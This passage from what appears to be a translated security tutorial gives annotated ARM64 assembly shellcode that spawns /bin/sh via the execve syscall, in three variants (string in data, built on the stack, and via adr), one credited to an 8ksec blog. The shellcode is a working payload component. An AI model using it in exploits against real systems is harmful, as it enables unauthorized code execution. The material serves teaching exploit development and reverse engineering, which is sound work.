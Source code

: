 ```armasm
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{{#endtab}}

{{#tab name="sa stekom"}}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
; We are going to build the string "/bin/sh" and place it on the stack.

mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

; Prepare arguments for the execve syscall.

mov  x1, #8       ; Set x1 to 8.
sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

; Make the syscall.

mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```
{{#endtab}}

{{#tab name="sa adr za linux"}}
```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```